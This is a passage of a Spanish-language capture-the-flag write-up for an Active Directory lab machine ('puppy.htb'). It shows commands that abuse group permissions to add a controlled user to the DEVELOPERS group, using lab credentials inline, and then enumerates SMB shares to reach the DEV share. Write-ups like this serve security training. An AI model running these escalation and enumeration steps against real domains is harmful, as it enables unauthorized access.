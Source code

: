 Por ejemplo para un grupo sin privilegios elevados, podemos modificar las membresías, permitiendo agregar al usuario que controlamos para que forme parte de este grupo

![image-center](/assets/images/posts/puppy-bloodhound.png)
{: .align-center}

Agregaremos al usuario `levi.james` al grupo `DEVELOPERS` con el comando `net`

~~~ bash
net rpc group addmem 'DEVELOPERS' 'levi.james' -U 'puppy.htb/levi.james%KingofAkron2025!' -S DC.puppy.htb
~~~

Verificaremos que ahora `levi.james` forma parte del grupo `DEVELOPERS` al listar a los miembros

~~~ bash
net rpc group members 'DEVELOPERS' -U 'puppy.htb/levi.james%KingofAkron2025!' -S DC.puppy.htb  
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
~~~


## SMB Enumeration

Si realizamos una enumeración nuevamente del servicio `SMB`, notaremos que ahora tenemos acceso con permisos de lectura al recurso compartido `DEV`

~~~ bash
smbmap -H DC.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' 
[+] IP: DC.puppy.htb:445	Name: unknown                                           
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	DEV                                               	READ ONLY	DEV-SHARE for PUPPY-DEVS
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
~~~
